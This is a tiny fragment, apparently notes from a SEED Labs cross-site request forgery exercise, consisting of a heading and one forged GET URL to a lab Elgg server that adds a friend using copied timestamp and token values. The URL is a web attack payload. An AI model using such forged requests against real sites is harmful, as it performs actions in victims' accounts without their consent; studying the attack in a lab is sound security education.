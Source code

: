 # CSRF using GET request
get request: http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1648491568&__elgg_token=h7S7iJMEC-ZpTk_GBxHd9w&__elgg_ts=1648491563&__elgg_token=T3acTCNhdM7Y3u9QMCZ9yQ